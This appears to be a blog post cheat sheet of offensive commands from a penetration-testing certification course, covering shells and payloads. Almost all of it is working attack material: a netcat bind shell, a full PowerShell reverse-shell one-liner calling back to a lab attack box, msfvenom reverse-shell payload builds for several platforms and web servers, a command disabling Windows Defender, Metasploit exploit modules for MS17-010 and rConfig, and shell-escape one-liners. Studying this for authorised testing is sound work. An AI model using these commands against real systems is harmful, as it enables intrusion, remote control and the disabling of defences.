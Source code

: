 ```yaml
---
layout: post
title: "Shells and Payloads"
date: 2025-04-15
categories: CheatSheets/CPTS
order: 4
---
```


### Post-Exploitation & Shell Access

| **Command** | **Description** |
|-------------|-----------------|
| `xfreerdp /v:10.129.x.x /u:htb-student /p:HTB_@cademy_stdnt!` | CLI-based tool used to connect to a Windows target using the Remote Desktop Protocol |
| `env` | Works with many different command language interpreters to discover the environmental variables of a system. This is a great way to find out which shell language is in use |
| `sudo nc -lvnp <port #>` | Starts a netcat listener on a specified port |
| `nc -nv <ip address of computer with listener started><port being listened on>` | Connects to a netcat listener at the specified IP address and port |
| `rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f` | Uses netcat to bind a shell (/bin/bash) the specified IP address and port. This allows for a shell session to be served remotely to anyone connecting to the computer this command has been issued on |
| `powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"` | Powershell one-liner used to connect back to a listener that has been started on an attack box |
| `Set-MpPreference -DisableRealtimeMonitoring $true` | Powershell command using to disable real time monitoring in Windows Defender |
| `use exploit/windows/smb/psexec` | Metasploit exploit module that can be used on vulnerable Windows system to establish a shell session utilizing smb & psexec |
| `shell` | Command used in a meterpreter shell session to drop into a system shell |
| `msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > nameoffile.elf` | MSFvenom command used to generate a linux-based reverse shell stageless payload |
| `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > nameoffile.exe` | MSFvenom command used to generate a Windows-based reverse shell stageless payload |
| `msfvenom -p osx/x86/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f macho > nameoffile.macho` | MSFvenom command used to generate a MacOS-based reverse shell payload |
| `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.113 LPORT=443 -f asp > nameoffile.asp` | MSFvenom command used to generate a ASP web reverse shell payload |
| `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f raw > nameoffile.jsp` | MSFvenom command used to generate a JSP web reverse shell payload |
| `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f war > nameoffile.war` | MSFvenom command used to generate a WAR java/jsp compatible web reverse shell payload |
| `use auxiliary/scanner/smb/smb_ms17_010` | Metasploit exploit module used to check if a host is vulnerable to ms17_010 |
| `use exploit/windows/smb/ms17_010_psexec` | Metasploit exploit module used to gain a reverse shell session on a Windows-based system that is vulnerable to ms17_010 |
| `use exploit/linux/http/rconfig_vendors_auth_file_upload_rce` | Metasploit exploit module that can be used to optain a reverse shell on a vulnerable linux system hosting rConfig 3.9.6 |
| `python -c 'import pty; pty.spawn("/bin/sh")'` | Python command used to spawn an interactive shell on a linux-based system |
| `/bin/sh -i` | Spawns an interactive shell on a linux-based system |
| `perl —e 'exec "/bin/sh";'` | Uses perl to spawn an interactive shell on a linux-based system |
| `ruby: exec "/bin/sh"` | Uses ruby to spawn an interactive shell on a linux-based system |
| `Lua: os.execute('/bin/sh')` | Uses Lua to spawn an interactive shell on a linux-based system |
| `awk 'BEGIN {system("/bin/sh")}'` | Uses awk command to spawn an interactive shell on a linux-based system |
| `find / -name nameoffile 'exec /bin/awk 'BEGIN {system("/bin/sh")}' \;` | Uses find command to spawn an interactive shell on a linux-based system |
| `find . -exec /bin/sh \; -quit` | An alternative way to use the find command to spawn an interactive shell on a linux-based system |
| `vim -c ':!/bin/sh'` | Uses the text-editor VIM to spawn an interactive shell. Can be used to escape "jail-shells" |
| `ls -la <path/to/fileorbinary>` | Used to list files & directories on a linux-based system and shows the permission for each file in the chosen directory. Can be used to look for binaries that we have permission to execute |
| `sudo -l` | Displays the commands that the currently logged on user can run as sudo |
| `/usr/share/webshells/laudanum` | Location of laudanum webshells on ParrotOS and Pwnbox |
| `/usr/share/nishang/Antak-WebShell` | Location of Antak-Webshell on Parrot OS and Pwnbox |

---
